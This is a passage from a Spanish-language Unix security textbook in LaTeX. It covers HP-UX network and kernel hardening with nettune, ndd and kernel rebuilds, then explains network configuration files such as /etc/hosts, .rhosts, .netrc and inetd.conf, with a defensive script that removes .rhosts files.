high_port_enable = 0 default = 0 min = 0 max = 1
high_port_max = 65535 default = 65535 min = 49153 max = 65535
ip_forward_directed_broadcasts = 1 default = 1 min = 0 max = 1
marta:/#
\end{verbatim}
\end{quote}
Podemos ver que simplemente por el nombre de estos par\'ametros el valor de 
algunos de ellos parece importante (y lo es) para la seguridad del sistema; 
este es el caso de {\tt ip$\_$forwarding} o {\tt tcp$\_$random$\_$seq}, por 
poner unos ejemplos. Podremos modificar el valor de todos aquellos par\'ametros
que nos interese tambi\'en mediante la orden {\tt nettune}:
\begin{quote}
\begin{verbatim}
marta:/# /usr/contrib/bin/nettune -l ip_forwarding 
ip_forwarding = 1 default = 1 min = 0 max = 1
marta:/# /usr/contrib/bin/nettune -s ip_forwarding 0
marta:/# /usr/contrib/bin/nettune -l ip_forwarding
ip_forwarding = 0 default = 1 min = 0 max = 1
marta:/#
\end{verbatim}
\end{quote}
Quiz\'as son dos los par\'ametros de los que m\'as nos interesa estar pendientes
para reforzar nuestra seguridad; el primero de ellos lo acabamos de ver, y es
{\tt ip$\_$forwarding}. Como su nombre indica, esta directiva indica si la 
m\'aquina ha de reenviar paquetes (si su valor es 1, el establecido por defecto)
o si no ha de hacerlo (valor 0); como ya sabemos, lo m\'as probable es que no 
nos interese este tipo de comportamiento en nuestro sistema HP-UX, por lo que
debemos establecerle un valor {\tt `0'} tal y como hemos visto en el ejemplo
anterior.\\
\\El segundo par\'ametro al que debemos estar atentos para incrementar la 
robustez de un sistema HP-UX es {\tt tcp$\_$random$\_$seq}, que es equivalente
al {\sc tcp$\_$strong$\_$iss} de Solaris: si su valor es 0 (por defecto es 
as\'{\i}), la generaci\'on de n\'umeros iniciales de secuencia {\sc tcp} es
bastante d\'ebil, si es 1 es algo m\'as robusta, y si es 2 (el valor 
recomendado) se adapta al esquema definido en \cite{kn:rfc1498}, que como ya 
sabemos es m\'as robusto que los anteriores.\\
\\Aparte de los dos anteriores, existe otro par\'ametro configurable v\'{\i}a 
{\tt nettune} que es interesante para nuestra seguridad: 
{\tt hp$\_$syn$\_$protect}, introducido en HP-UX 10.x, y que protege a una 
m\'aquina de ataques {\it SYN Flood} si su valor es `1' (por defecto est\'a a 
0, desactivado), algo con un objetivo similar a las {\it SYN Cookies} del 
n\'ucleo de Linux:
\begin{quote}
\begin{verbatim}
marta:/# /usr/contrib/bin/nettune -l hp_syn_protect
hp_syn_protect = 0 default = 0 min = 0 max = 1
marta:/# /usr/contrib/bin/nettune -s hp_syn_protect 1
marta:/# /usr/contrib/bin/nettune -l hp_syn_protect
hp_syn_protect = 0 default = 0 min = 0 max = 1
marta:/#
\end{verbatim}
\end{quote}
No todos los par\'ametros importantes para la seguridad del subsistema de red
de HP-UX son accesibles a trav\'es de {\tt nettune}; un buen ejemplo es {\tt
ip$\_$block$\_$source$\_$routed}, que como su nombre indica bloquea las tramas
{\it source routed} que llegan a los interfaces de red cuando su valor es 
verdadero (`1'), enviando ante la recepci\'on de una de ellas un paquete {\sc
icmp} de destino inalcanzable hacia el origen de la misma (\cite{kn:ste98b}). 
Otro ejemplo interesante es {\tt lanc$\_$outbound$\_$promisc$\_$flag}, que
permite a las aplicaciones que utilizan el modo promiscuo de un interfaz 
capturar tanto los paquetes {\it inbound} (los `vistos' por el sistema) como 
los {\it outbound} (los transmitidos por el propio sistema); por defecto el
valor de este par\'ametro es `0', lo que provoca que aplicaciones como {\tt
tcpdump} puedan no funcionar correctamente al ver s\'olo el tr\'afico no 
generado por el propio {\it host}. Para asignarle el valor {\it true} a ambos
par\'ametros no podemos utilizar {\tt nettune}, sino que tenemos que escribir
directamente sobre el n\'ucleo en ejecuci\'on:
\begin{quote}
\begin{verbatim}
marta:/# echo 'ip_block_source_routed/W1'|adb -w /stand/vmunix /dev/kmem
marta:/# echo 'lanc_outbound_promisc_flag/W1'|adb -w /stand/vmunix /dev/kmem
marta:/#
\end{verbatim}
\end{quote}
Como hemos dicho al principio de este punto, en HP-UX 11 se introduce un comando
{\tt ndd}, similar al que existe en Solaris, que facilita enormemente el ajuste 
de par\'ametros de la seguridad del subsistema de red. Para obtener un listado
de cada par\'ametro configurable a trav\'es de este interfaz podemos ejecutar
{\tt `ndd -h'}, y para hacernos una idea de cuales de estos par\'ametros son
los m\'as importantes para nuestra seguridad una excelente referencia es 
\cite{kn:ste00}; en cualquier caso, el nombre de los mismos, as\'{\i} como la
sintaxis de la orden, es muy similar a la que existe en Solaris.\\
\\Como siempre, nos va a interesar deshabilitar diferentes tipos de {\it 
forwarding} en nuestro sistema: el {\it IP Forwarding}, el reenv\'{\i}o de 
paquetes con opciones de {\it source routing}, y los {\it broadcasts}; para 
conseguirlo podemos ejecutar {\tt `ndd -set'}:
\begin{quote}
\begin{verbatim}
marta11:/# ndd -set /dev/ip ip_forwarding 0
marta11:/# ndd -set /dev/ip ip_forward_src_routed 0
marta11:/# ndd -set /dev/ip ip_forward_directed_broadcasts 0
marta11:/# 
\end{verbatim}
\end{quote}
Como ya sabemos, el protocolo {\sc icmp} puede ser fuente de diferentes 
problemas de seguridad en el sistema, por lo que en ocasiones conviene modificar
algunos de sus par\'ametros; es importante no responder a {\it broadcasts} de
tramas {\sc icmp$\_$echo$\_$request}, {\sc icmp$\_$address$\_$mask$\_$request}
o {\sc icmp$\_$timestamp$\_$request}, as\'{\i} como tampoco hacerlo a 
peticiones {\sc icmp$\_$timestamp$\_$request} dirigidas directamente a la 
m\'aquina (no en {\it broadcast}). En este orden, los par\'ametros del interfaz
{\tt ndd} son los siguientes:
\begin{quote}
\begin{verbatim}
marta11:/# ndd -set /dev/ip ip_respond_to_echo_broadcast 0
marta11:/# ndd -set /dev/ip ip_respond_to_address_mask_broadcast 0
marta11:/# ndd -set /dev/ip ip_respond_to_timestamp_broadcast 0
marta11:/# ndd -set /dev/ip ip_respond_to_timestamp 0
marta11:/#
\end{verbatim}
\end{quote}
El envio de tramas {\sc icmp$\_$redirect} e {\sc icmp$\_$source$\_$quench} se
puede evitar tambi\'en mediante {\tt ndd}, as\'{\i} como la activaci\'on de la
defensa contra el {\it SYN flood} que proporciona HP-UX:
\begin{quote}
\begin{verbatim}
marta11:/# ndd -set /dev/ip ip_send_redirects 0
marta11:/# ndd -set /dev/ip ip_send_source_quench 0
marta11:/# ndd -set /dev/tcp tcp_syn_rcvd_max 500
marta11:/#
\end{verbatim}
\end{quote}
Al igual que suced\'{\i}a en Solaris (o en AIX con la orden {\tt no}), los 
cambios efectuados por {\tt ndd} tienen efecto s\'olo mientras no se reinicia 
el sistema, por lo que si queremos hacerlos permanentes hemos de ejecutarlos 
autom\'aticamente en el arranque de la m\'aquina. HP-UX ejecuta en uno de sus
{\it scripts} de arranque la orden {\tt `ndd -c'}, que inicializa los valores 
por defecto de cada par\'ametro, para lo que lee el archivo {\tt 
/etc/rc.config.d/nddconf}. En este fichero (de texto), podemos definir las 
entradas correspondientes a los valores de cada par\'ametro que nos interesen,
de forma que en cada reinicio del sistema se asignen autom\'aticamente; 
{\bf no} se trata de un simple {\it shellscript}, sino de un fichero de 
configuraci\'on con tres entradas por par\'ametro a configurar, que definen el
componente sobre el que se aplica ({\tt tcp}, {\tt ip}, {\tt arp}\ldots), el
nombre del par\'ametro, y el valor que queremos darle. Es conveniente, tras
modificar el fichero, que comprobemos que efectivamente todo ha funcionado como
hab\'{\i}amos definido tras un reinicio del sistema (es decir, que cada uno de 
los par\'ametros tiene el valor que nosotros queremos), ya que, como se cita en 
\cite{kn:ste00}, existen algunos problemas relacionados con esta forma de 
trabajar; si no fuera as\'{\i}, en la misma obra se explica una sencilla 
modificaci\'on del sistema que har\'a que todo funcione correctamente.
\section{El n\'ucleo de HP-UX}
Generalmente se recomienda utilizar la herramienta SAM ({\it System 
Administration Manager}) en los sistemas HP-UX, que adem\'as de las tareas 
cl\'asicas de administraci\'on permite modificar par\'ametros de un n\'ucleo, 
reconstruirlo e instalarlo en el sistema de una forma sencilla, guardando una
copia del {\it kernel} actual en {\tt /SYSBACKUP} (algo muy \'util, ya que 
recordemos que un n\'ucleo mal configurado puede hacer que la m\'aquina no 
arranque). Por tanto, desde SAM hemos de entrar en el men\'u {\tt `Kernel 
Configuration'} y desde ah\'{\i} elegir los par\'ametros que deseamos modificar
para construir el nuevo {\it kernel}; como en el caso de Solaris, podemos fijar 
el par\'ametro {\tt maxusers} (tambi\'en con un significado similar al que esta 
variable posee en Solaris) y tambi\'en el n\'umero m\'aximo de procesos por 
usuario (par\'ametro {\tt maxuprc}).\\
\\Si deseamos modificar y reconstruir el nuevo n\'ucleo a mano, el proceso 
difiere entre HP-UX 9.x, HP-UX 10.x y HP-UX 11.x. Los pasos en cada caso son 
los siguientes:
\begin{itemize}
\item {\bf HP-UX 9.x}
\begin{quote}
\begin{verbatim}
# cd /etc/conf
# cp dfile dfile.old
# vi dfile
# config dfile
# make -f config.mk
# mv /hp-ux /hp-ux.old
# mv /etc/conf/hp-ux /hp-ux
# cd / ; shutdown -ry 0
\end{verbatim}
\end{quote}
\item {\bf HP-UX 10.x}
\begin{quote}
\begin{verbatim}
# cd /stand/build
# /usr/lbin/sysadm/system_prep -s system
# vi system
# mk_kernel -s system
# mv /stand/system /stand/system.prev
# mv /stand/build/system /stand/system
# mv /stand/vmunix /stand/vmunix.prev
# mv /stand/build/vmunix_test /stand/vmunix
# cd / ; shutdown -ry 0
\end{verbatim}
\end{quote}
\item {\bf HP-UX 11.x}
\begin{quote}
\begin{verbatim}
# cd /stand/build 
# /usr/lbin/sysadm/system_prep -s system 
# vi system 
# /usr/sbin/mk_kernel -s /stand/build/system 
# mv /stand/system /stand/system.prev 
# mv /stand/vmunix /stand/vmunix.prev 
# mv system .. 
# /usr/sbin/kmupdate 
# cd / ; shutdown -ry 0
\end{verbatim}
\end{quote}
\end{itemize}
Al editar los ficheros {\tt /etc/conf/dfile} (HP-UX 9.x) o {\tt 
/stand/build/system} (HP-UX 10.x y 11.x) hemos de especificar los par\'ametros 
comentados anteriormente, de la forma
\begin{quote}
\begin{verbatim}
maxuprc     60
maxusers    100
\end{verbatim}
\end{quote}
Otros par\'ametros a tener en cuenta relacionados con la gesti\'on de procesos
son {\tt nproc} (n\'umero m\'aximo de procesos en el sistema), {\tt nkthread}
(n\'umero m\'aximo de hilos simult\'aneos en el n\'ucleo) o {\tt 
max$\_$thread$\_$proc} (n\'umero m\'aximo de hilos en un proceso).\\ 
\\Igual que en Solaris -- y en cualquier Unix en general -- tambi\'en nos puede
interesar limitar algunos par\'ametros relacionados con el sistema de ficheros,
de cara a evitar posibles consumos excesivos de recursos que puedan comprometer
nuestra seguridad. Por ejemplo, {\tt maxfiles} indica un l\'{\i}mite {\it soft}
a los ficheros abiertos por un proceso y {\tt maxfiles$\_$lim} un l\'{\i}mite
{\it hard} (que obviamente ha de ser mayor que el anterior); {\tt nfile} 
indica el n\'umero m\'aximo de ficheros abiertos en el sistema y {\tt ninode}
el n\'umero de inodos (se recomienda que ambos coincidan). Por \'ultimo, {\tt 
nflocks} indica el n\'umero m\'aximo de ficheros abiertos y bloqueados en la 
m\'aquina.\\
\\En el n\'ucleo de HP-UX 11i se ha introducido un nuevo par\'ametro que puede
resultar muy interesante para incrementar nuestra seguridad; se trata de {\tt 
executable$\_$stack}, que permite evitar que los programas ejecuten c\'odigo de
su pila, previniendo as\'{\i} desbordamientos (\cite{kn:hp00}). Por motivos de 
compatibilidad
su valor es 1 (esto es, est\'a habilitado y los programas pueden ejecutar 
c\'odigo de su pila), pero desde {\sc sam} podemos cambiar este valor a 0; si
lo hacemos as\'{\i} y un programa concreto necesita que su pila sea ejecutable,
podemos darle ese privilegio mediante la orden {\tt chatr}:
\begin{quote}
\begin{verbatim}
marta:/# chatr +es enable /usr/local/bin/check
marta:/# 
\end{verbatim}
\end{quote}

\cleardoublepage
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Seguridad de la red 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Seguridad de la subred}
 
\cleardoublepage
\chapter{El sistema de red}
\section{Introducci\'on}
Por sistema de red de un equipo Unix se entiende el conjunto de software que
posibilita la interconexi\'on entre diferentes m\'aquinas. Este software est\'a 
dividido en dos espacios: por un lado, tenemos el soporte de red dentro del 
{\it kernel} del sistema operativo, encargado de implementar las tareas de
m\'as bajo nivel necesarias para la comunicaci\'on entre sistemas, como la
pila de protocolos {\sc tcp/ip} o los controladores de tarjetas de red; por 
otro, ya en el espacio de
usuario, tenemos el conjunto de programas y ficheros utilizados para configurar 
par\'ametros del sistema relacionados con la red, como la direcci\'on {\sc IP}, 
las tablas de rutado, o el comportamiento de una m\'aquina ante solicitudes de 
servicio desde otros equipos conectados l\'ogicamente a ella.\\
\\En este trabajo vamos a hablar exclusivamente de este {\it software} de 
usuario (tanto utilidades como ficheros) que de una u otra forma puede afectar 
a la seguridad global del equipo. Se trata de una peque\~na -- muy peque\~na -- 
introducci\'on a esta parte del sistema de red en Unix, sin entrar en {\bf
ning\'un} detalle; para temas m\'as concretos, como la configuraci\'on del 
soporte de red en n\'ucleo, la configuraci\'on de interfaces de red, servicios 
de nombres o la configuraci\'on de las tablas de rutado, se puede consultar 
\cite{kn:fri95}, \cite{kn:hun92}, \cite{kn:nem89} o, en el caso de m\'aquinas 
Linux, \cite{kn:kir95}.
\section{Algunos ficheros importantes}
\subsection{El fichero {\tt /etc/hosts}}
Este fichero se utiliza para obtener una relaci\'on entre un nombre de m\'aquina
y una direcci\'on {\sc ip}: en cada l\'{\i}nea de {\tt /etc/hosts} se 
especifica una direcci\'on {\sc ip} y
los nombres de m\'aquina que le corresponden, de forma que un usuario no tenga
que recordar direcciones sino nombres de {\it hosts}. Habitualmente se suelen
incluir las direcciones, nombres y aliases de todos los equipos conectados a
la red local, de forma que para comunicaci\'on dentro de la red no se tenga que
recurrir a DNS a la hora de resolver un nombre de m\'aquina. El formato de
una l\'{\i}nea de este fichero puede ser el siguiente:
\tt
\begin{quote}
\begin{verbatim}
158.42.2.1       pleione pleione.cc.upv.es pleione.upv.es
\end{verbatim}
\end{quote}
\rm
Esta l\'{\i}nea indica que ser\'a equivalente utilizar la direcci\'on 
{\tt 158.42.2.1}, el nombre de m\'aquina {\tt pleione}, o los {\it aliases}
{\tt pleione.cc.upv.es} y {\tt pleione.upv.es} cuando queramos comunicarnos con 
este servidor:
\tt
\begin{quote}
\begin{verbatim}
luisa:~# telnet pleione
Trying 158.42.2.1...
Connected to pleione.cc.upv.es
Escape character is '^]'.
Connection closed by foreign host.
luisa:~# telnet 158.42.2.1
Trying 158.42.2.1...
Connected to pleione.cc.upv.es
Escape character is '^]'.
Connection closed by foreign host.
luisa:~#
\end{verbatim}
\end{quote}
\rm
\subsection{El archivo {\tt /etc/ethers}}
De la misma forma que en {\tt /etc/hosts} se establec\'{\i}a una correspondencia
entre nombres de m\'aquina y sus direcciones {\sc ip}, en este fichero se
establece una correspondencia entre nombres de m\'aquina y direcciones {\it
ethernet}, en un formato muy similar al archivo anterior:
\tt
\begin{quote}
\begin{verbatim}
00:20:18:72:c7:95      pleione.cc.upv.es
\end{verbatim}
\end{quote}
\rm
En la actualidad el archivo {\tt /etc/ethers} no se suele encontrar 
(aunque para el sistema sigue conservando su funcionalidad, es decir, si 
existe se tiene en cuenta) en casi ninguna m\'aquina Unix, ya que las 
direcciones hardware se obtienen por {\sc arp}. No obstante, a\'un resulta 
\'util en determinados casos, por ejemplo en cortafuegos con tarjetas {\it
quad} donde todas las interfaces de la tarjeta tienen la misma direcci\'on
MAC.
\subsection{El fichero {\tt /etc/networks}}
Este fichero, cada vez m\'as en desuso, permite asignar un nombre simb\'olico
a las redes, de una forma similar a lo que {\tt /etc/hosts} hace con las
m\'aquinas. En cada l\'{\i}nea del fichero se especifica un nombre de red, su
direcci\'on, y sus {\it aliases}:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/networks
loopback        127.0.0.0
localnet        192.168.0.0
luisa:~#
\end{verbatim}
\end{quote}
El uso de este fichero es casi exclusivo del arranque del sistema, cuando a\'un
no se dispone de servidores de nombres; en la operaci\'on habitual del sistema
no se suele utilizar, ya que ha sido desplazado por {\sc dns}.
\subsection{El fichero {\tt /etc/services}}
En cada l\'{\i}nea de este fichero se especifican el nombre, n\'umero de puerto,
protocolo utilizado y aliases de todos los servicios de red existentes (o, si
no de todos los existentes, de un subconjunto lo suficientemente amplio para que
ciertos programas de red funcionen correctamente). Por ejemplo, para especificar
que el servicio de {\tt smtp} utilizar\'a el puerto 25, el protocolo {\sc
tcp} y que un {\it alias} para \'el es {\tt mail}, existir\'a una l\'{\i}nea 
similar a la siguiente:
\tt
\begin{quote}
\begin{verbatim}
smtp        25/tcp   mail
\end{verbatim}
\end{quote}
\rm
El fichero {\tt /etc/services} es utilizado por los servidores y por los 
clientes para obtener el n\'umero de puerto en el que deben escuchar o al que
deben enviar peticiones, de forma que se pueda cambiar (aunque no es lo 
habitual) un n\'umero de puerto sin afectar a las aplicaciones; de esta forma,
podemos utilizar el nombre del servicio en un programa y la funci\'on {\tt
getservicebyname()} en lugar de utilizar el n\'umero del puerto:
\begin{quote}
\begin{verbatim}
luisa:~# telnet anita 25
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.
220 anita ESMTP Sendmail 8.9.1b+Sun/8.9.1; Sun, 31 Oct 1999 06:43:06 GMT
quit
221 anita closing connection
Connection closed by foreign host.
luisa:~# telnet anita smtp
Trying 192.168.0.3...
Connected to anita.
Escape character is '^]'.
220 anita ESMTP Sendmail 8.9.1b+Sun/8.9.1; Sun, 31 Oct 1999 06:43:20 GMT
quit
221 anita closing connection
Connection closed by foreign host.
luisa:~#
\end{verbatim}
\end{quote}
Este fichero {\bf NO} se utiliza para habilitar o deshabilitar servicios, sino 
como hemos dicho, simplemente para obtener n\'umeros de puerto a partir de 
nombres de servicio y viceversa.
\subsection{El fichero {\tt /etc/protocols}}
El sistema de red en Unix utiliza un n\'umero especial, denominado n\'umero de
protocolo, para identificar el protocolo de transporte espec\'{\i}fico que la
m\'aquina recibe; esto permite al {\it software} de red decodificar 
correctamente la informaci\'on recibida. En el archivo {\tt /etc/protocols}
se identifican todos los protocolos de transporte reconocidos junto a su 
n\'umero de protocolo y sus {\it aliases}:
\begin{quote}
\begin{verbatim}
luisa:~# cat /etc/protocols
ip      0       IP      # internet protocol, pseudo protocol number
icmp    1       ICMP    # internet control message protocol
igmp    2       IGMP    # internet group multicast protocol
ggp     3       GGP     # gateway-gateway protocol
tcp     6       TCP     # transmission control protocol
pup     12      PUP     # PARC universal packet protocol
udp     17      UDP     # user datagram protocol
idp     22      IDP     # WhatsThis?
raw     255     RAW     # RAW IP interface
luisa:~#
\end{verbatim}
\end{quote}
No es usual -- ni recomendable -- que el administrador modifique este fichero;
es el {\it software} de red el que lo va actualizando al ser instalado en la
m\'aquina
\subsection{El fichero {\tt /etc/hosts.equiv}}
En este fichero se indican, una en cada l\'{\i}nea, las m\'aquinas confiables.
>Qu\'e significa {\it confiables}? B\'asicamente que confiamos en su seguridad
tanto como en la nuestra, por lo que para facilitar la compartici\'on de 
recursos, no se van a pedir contrase\~nas a los usuarios que quieran conectar
desde estas m\'aquinas con el mismo {\it login}, utilizando las \'ordenes 
{\sc bsd} {\tt r$\ast$} ({\tt rlogin, rsh, rcp}\ldots). Por ejemplo, si en el
fichero {\tt /etc/hosts.equiv} del servidor {\tt maquina1} hay una entrada 
para el nombre
de {\it host} {\tt maquina2}, cualquier usuario\footnote{Excepto el {\it 
root}.} de este sistema puede ejecutar una orden como la siguiente para 
conectar a {\tt maquina1} {\bf <sin necesidad de ninguna clave!}:
\begin{quote}
\begin{verbatim}
maquina2:~$ rlogin maquina1
Last login: Sun Oct 31 08:27:54 from localhost
Sun Microsystems Inc.   SunOS 5.7       Generic October 1998
maquina1:~$ 
\end{verbatim}
\end{quote}
Obviamente, esto supone un gran problema de seguridad, por lo que lo m\'as 
recomendable es que el fichero {\tt /etc/hosts.equiv} est\'e vac\'{\i}o o no 
exista. De la misma forma, los usuarios pueden crear ficheros {\tt 
\$HOME/.rhosts} para establecer un mecanismo de confiabilidad bastante similar
al de {\tt /etc/hosts.equiv}; es importante para la seguridad de nuestro 
sistema el controlar la existencia y el contenido de estos archivos {\tt 
.rhosts}. Por ejemplo, podemos aprovechar las facilidades de planificaci\'on de
tareas de Unix para, cada cierto tiempo, chequear los directorios {\tt \$HOME}
de los usuarios en busca de estos ficheros, elimin\'andolos si los 
encontramos. Un {\it shellscript} que hace esto puede ser el siguiente:
\label{scriptrhosts}
\begin{quote}
\begin{verbatim}
#!/bin/sh
for i in `cat /etc/passwd |awk -F: '{print $6}'`; do
    cd $i
    if [ -f .rhosts ]; then
        echo "$i/.rhosts detectado"|mail -s "rhosts" root
        rm -f $i/.rhosts
    fi
done
\end{verbatim}
\end{quote}
Este programa env\'{\i}a un correo al {\it root} en caso de encontrar un 
fichero {\tt .rhosts}, y lo elimina; podemos planificarlo mediante {\tt cron}
para que se ejecute, por ejemplo, cada cinco minutos (la forma de planificarlo
depende del clon de Unix en el que trabajemos, por lo que se recomienda 
consultar la p\'agina del manual de {\tt cron} o {\tt crond}).
\subsection{El fichero {\tt .netrc}}
El mecanismo de autenticaci\'on que acabamos de ver s\'olo funciona con las
\'ordenes {\tt r*} de Unix {\sc bsd}; la conexi\'on v\'{\i}a {\tt ftp} 
seguir\'a solicitando un nombre de usuario y una clave para acceder a sistemas
remotos. No obstante, existe una forma de automatizar {\tt ftp} para que no
solicite estos datos, y es mediante el uso de un archivo situado en el 
directorio {\it \$HOME} de cada usuario (en la m\'aquina desde donde se invoca a
{\tt ftp}, no en la servidora) y llamado {\tt .netrc}. En este fichero
se pueden especificar, en texto claro, nombres de m\'aquina, nombres de usuario
y contrase\~nas de sistemas remotos, de forma que al conectar a ellos la
transferencia de estos datos se realiza autom\'aticamente, sin ninguna 
interacci\'on con el usuario. Por ejemplo, imaginemos que el usuario {\tt 
`root'} del sistema {\tt luisa} conecta habitualmente a {\tt rosita} por {\tt 
ftp}, con nombre de usuario {\tt `toni'}; en su {\it \$HOME} de {\tt luisa}
puede crear un fichero {\tt .netrc} como el siguiente:
\begin{quote}
\begin{verbatim}
luisa:~# cat $HOME/.netrc
machine rosita
login toni
password h/l0&54
luisa:~#
\end{verbatim}
\end{quote}
Si este archivo existe, cuando conecte al sistema remoto no se le solicitar\'an
ning\'un nombre de usuario ni contrase\~na:
\begin{quote}
\begin{verbatim}
luisa:~# ftp rosita
Connected to rosita.
220 rosita FTP server (Version wu-2.6.0(1) Thu Oct 21 12:27:00 EDT 1999) ready.
331 Password required for toni.
230 User toni logged in.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
\end{verbatim}
\end{quote}
La existencia de ficheros {\tt .netrc} en los {\it \$HOME} de los usuarios 
se puede convertir en un grave problema de seguridad: si un atacante 
consigue leer nuestro fichero {\tt .netrc}, autom\'aticamente obtiene nuestro
nombre de usuario y nuestra clave en un sistema remoto. Por tanto, no es de
extra\~nar que para que el mecanismo funcione correctamente, este fichero s\'olo
puede ser le\'{\i}do por su propietario; si no es as\'{\i}, no se permitir\'a
el acceso al sistema remoto (aunque los datos de {\tt .netrc} sean correctos):
\begin{quote}
\begin{verbatim}
luisa:~# ftp rosita
Connected to rosita.
220 rosita FTP server (Version wu-2.6.0(1) Thu Oct 21 12:27:00 EDT 1999) ready.
Error - .netrc file not correct permissions.
Remove password or correct mode (should be 600).
ftp>
\end{verbatim}
\end{quote}
Existe una diferencia abismal entre el uso de {\tt .rhosts} y el de 
{\tt .netrc}; en el primer caso al menos conseguimos que nuestra clave no se
env\'{\i}e a trav\'es de la red, pero mediante {\tt .netrc} lo \'unico que
conseguimos es no tener que teclear la clave y el {\it login} 
expl\'{\i}citamente: se env\'{\i}an de forma autom\'atica. Adem\'as de esto,
si alguien consigue privilegios de administrador en la 
m\'aquina cliente, podr\'a leer los posibles archivos {\tt .netrc} que sus
usuarios posean; por tanto, este mecanismo s\'olo se ha de utilizar para
conexiones a sistemas remotos como usuario an\'onimo ({\tt anonymous} o {\tt
ftp}). Quiz\'as nos convenga rastrear peri\'odicamente los directorios de
conexi\'on de nuestros usuarios en busca de archivos {\tt .netrc}, por ejemplo
mediante un {\it shellscript} muy similar al que hemos visto para buscar
ficheros {\tt .rhosts}.
\subsection{El fichero {\tt /etc/inetd.conf}}
Este fichero es el utilizado por el demonio {\tt inetd}, conocido como el
superservidor de red. El demonio {\tt inetd} es el encargado de ofrecer la
mayor\'{\i}a de servicios de nuestro equipo hacia el resto de m\'aquinas, y
por tanto debemos cuidar mucho su correcta configuraci\'on. Posteriormente 
hablaremos de c\'omo restringir servicios, tanto ofrecidos por este demonio como
servidos independientemente.\\
\\Cada l\'{\i}nea (excepto las que comienzar por {\tt `\#'}, que son tratadas
como comentarios) del archivo {\tt /etc/inetd.conf} le indica a {\tt inetd} 
c\'omo se ha de comportar cuando recibe una petici\'on en cierto puerto; en cada
una de ellas existen al menos seis campos (en algunos clones de Unix pueden ser 
m\'as, como se explica en \cite{kn:siy95}), cuyo significado es el 
siguiente:
\begin{itemize}
\item Servicio\\
Este campo indica el nombre del servicio asociado a la l\'{\i}nea 
correspondiente de {\tt\\ /etc/inetd.conf}; el nombre ha de existir en 
{\tt /etc/services} para ser considerado correcto, o en {\tt /etc/rpc} si se
trata de servicios basados en el RPC ({\it Remote Procedure Call}) de Sun
Microsystems. En este \'ultimo caso se ha de acompa\~nar el nombre del servicio
con el n\'umero de versi\'on RPC, separando ambos con el car\'acter {\tt `/'}.
\item {\it Socket}\\
Aqu\'{\i} se indica el tipo de {\it socket} asociado a la conexi\'on. Aunque
dependiendo del clon de Unix utilizado existen una serie de identificadores 
v\'alidos, lo normal es que asociado al protocolo {\sc tcp} se utilicen 
{\it sockets} de tipo {\tt stream}, mientras que si el protocolo es {\sc udp} 
el tipo del {\it socket} sea {\tt dgram} (datagrama).
\item Protocolo\\
El protocolo debe ser un protocolo definido en {\tt /etc/protocols}, 
generalmente {\sc tcp} o {\sc udp}. Si se trata de servicios RPC, de nuevo hay
que indicarlo utilizando {\tt rpc} antes del nombre del protocolo, separado
de \'el por el car\'acter {\tt `/'} al igual que suced\'{\i}a con el nombre; por
ejemplo, en este caso podr\'{\i}amos tener protocolos como {\tt rpc/tcp} o {\tt
rpc/udp}.
\item Concurrencia\\
El campo de concurrencia s\'olamente es aplicable a {\it sockets} de tipo
datagrama ({\tt dgram}); el resto de tipos han de contener una entrada {\tt
nowait} en este campo. Si el servidor que ha de atender la petici\'on es
multihilo (es decir, puede anteder varias peticiones simult\'aneamente), hemos
de indicarle al sistema de red que libere el {\it socket} asociado a una 
conexi\'on de forma que {\tt inetd} pueda seguir aceptando peticiones en dicho
{\it socket}; en este caso utilizaremos la opci\'on {\tt nowait}. Si por el
contrario se trata de un servidor unihilo (acepta peticiones de forma 
secuencial, hasta que no finaliza con una no puede escuchar la siguiente) 
especificaremos {\tt wait}.\\
\\Especificar correctamente el modelo de concurrencia a seguir en un determinado
servicio es importante para nuestra seguridad, especialmente para prevenir
ataques de negaci\'on de servicio ({\it DoS}). Si especificamos {\tt wait},
{\tt inetd} no podr\'a atender una petici\'on hasta que no finalice el servicio
de la actual, por lo que si este servicio es muy costoso la segunda petici\'on 
no ser\'a servida en un tiempo razonable (o incluso nunca, si {\tt inetd} se
queda bloqueado por cualquier motivo). Si por el contrario especificamos {\tt
nowait}, el n\'umero de conexiones simult\'aneas quiz\'as llegue a ser lo
suficientemente grande como para degradar las prestaciones del sistema, lo que
por supuesto no es conveniente para nosotros. Para evitar ataques de este
estilo, la mayor\'{\i}a de sistemas Unix actuales permiten especificar (junto a
{\tt wait} o {\tt nowait}, separado de \'el por un punto) el 
n\'umero m\'aximo de peticiones a un servicio durante un intervalo de tiempo
(generalmente un minuto), de forma que si este n\'umero se sobrepasa {\tt inetd}
asume que alguien est\'a intentando una negaci\'on de servicio contra \'el, 
por lo que deja de ofrecer ese servicio durante cierto tiempo (algunos clones
de Unix incluso paran {\tt inetd}, es conveniente consultar la documentaci\'on
en cada caso). Como evidentemente esto tambi\'en es una negaci\'on de
servicio, algo muy com\'un entre administradores es aprovechar las facilidades
de planificaci\'on de Unix para enviar cada poco tiempo la se\~nal {\sc sighup}
al demonio {\tt inetd}, de forma que este relea su fichero de configuraci\'on 
y vuelva a funcionar normalmente. Por ejemplo, para conseguir esto podemos
a\~nadir a nuestro fichero {\tt crontab} una l\'{\i}nea como la siguiente:
\begin{quote}
\begin{verbatim}
00,10,20,30,40,50 * * * *           pkill -HUP inetd
\end{verbatim}
\end{quote}
Con esto conseguimos que {\tt inetd} se reconfigure cada diez minutos (el
equivalente a {\tt pkill} en ciertos Unices es {\tt killall}, pero es 
recomendable consultar el manual para asegurarse de lo que esta orden provoca).
\item Usuario\\
En este campo se ha de indicar el nombre de usuario bajo cuya identidad se ha
de ejecutar el programa que atiende cada servicio; esto es as\'{\i} para poder
lanzar servidores sin que posean los privilegios del {\it root}, con lo que
un posible error en su funcionamiento no tenga consecuencias excesivamente
graves. Para
el grupo, se asume el grupo primario del usuario especificado, aunque se 
puede indicar un grupo diferente indic\'andolo junto al nombre, separado de
\'este por un punto.
\item Programa\\
Por \'ultimo, en cada l\'{\i}nea de {\tt /etc/inetd.conf} hemos de indicar la
ruta del programa encargado de servir cada petici\'on que {\tt inetd} recibe
en un puerto determinado, junto a los argumentos de dicho programa. El servidor
{\tt inetd} es capaz de ofrecer peque\~nos servicios basado en {\sc tcp} por 
s\'{\i} mismo, sin necesidad de invocar a otros programas; ejemplos de este 
